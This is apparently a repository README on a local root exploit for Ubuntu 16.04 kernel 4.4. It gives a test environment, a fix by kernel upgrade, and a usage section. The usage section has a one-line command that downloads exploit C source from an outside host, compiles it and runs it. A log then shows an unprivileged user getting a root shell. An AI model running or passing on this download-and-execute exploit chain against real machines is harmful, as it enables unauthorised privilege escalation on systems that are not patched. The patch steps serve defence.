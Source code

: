 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable

### 漏洞测试环境
```
➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```

echo "deb http://archive.ubuntu.com/ubuntu/  xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list

apt update 

apt install linux-image-4.4.0-117-generic

reboot

```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c.1’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0

```
#### 注意 如果不同的内核调整CRED偏移量+检查内核堆栈大小



### 参考链接

https://twitter.com/vnik5287/status/974439706896187392

http://cyseclabs.com/exploits/upstream44.c

![](./1.jpg)
